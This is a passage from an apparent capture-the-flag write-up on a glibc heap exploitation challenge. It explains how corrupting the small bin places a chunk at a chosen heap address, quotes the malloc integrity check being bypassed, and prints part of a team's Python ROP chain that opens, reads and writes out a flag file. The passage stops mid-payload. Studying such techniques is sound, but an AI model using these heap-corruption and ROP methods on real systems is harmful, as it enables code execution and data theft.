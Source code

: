 With this setup, the first chunk we allocate out of this small bin will give us back the 0x210 sized chunk we freed initially into the small bin. The next chunk we allocate will be right on top of `heapbase+0x40`.

The setup is so extensive just to bypass the following check in `__int_malloc`:
```c
  if (in_smallbin_range (nb))
  {
    idx = smallbin_index (nb);
    bin = bin_at (av, idx);

    if ((victim = last (bin)) != bin)
    {
      bck = victim->bk;
      if (__glibc_unlikely (bck->fd != victim))
        malloc_printerr ("malloc(): smallbin double linked list corrupted");
      set_inuse_bit_at_offset (victim, nb);
      bin->bk = bck;
      bck->fd = bin;

      if (av != &main_arena)
        set_non_main_arena (victim);
      check_malloced_chunk (av, victim, nb);
      ...
      void *p = chunk2mem (victim);
      alloc_perturb (p, bytes);
      return p;
    }
  }
```

Essentially, the only check we have to bypass is the `if (__glibc_unlikely (bck->fd) != victim)` check. You should be able to verify yourself from the memory shown above that the chunks are set up correctly to be able to bypass it.

After that check is bypassed, the small bin's `bk` is set to the `bk` field of the `victim` chunk. In our case, this gets it set to `heapbase+0x40`. It also sets the `fd` pointer of the fake chunk at `heapbase+0x40` to point to the small bin. This makes it so that the next allocation will give us a chunk right on top of `heapbase+0x40`.

**Balsn** uses the first chunk allocation out of the small bin to set up their ROP chain on the heap. I've replaced '/home/lazyhouse/flag' with '/home/vagrant/flag' due to using the exploit on my own machine:
```python
# Put the flag's location string at a known place on the heap
# Using gdb, the flag's location string will be at heapbase+0xa68
payload = 'Z'*0x18
payload += '/home/vagrant/flag'.ljust(0x20, '\x00')

# ROP to open the flag file
# Flag file's file descriptor will be 3
payload += p64(pop_rdi) + p64(heap+0xa68)
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(2)
payload += p64(syscall)

# ROP to read the flag file's contents right into heapbase
payload += p64(pop_rdi) + p64(3)
payload += p64(pop_rsi) + p64(heap)
payload += p64(pop_rdx) + p64(0x100)
payload += p64(pop_rax) + p64(0)
payload += p64(syscall)

# ROP to write the contents of heapbase right into stdout
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi) + p64(heap)
```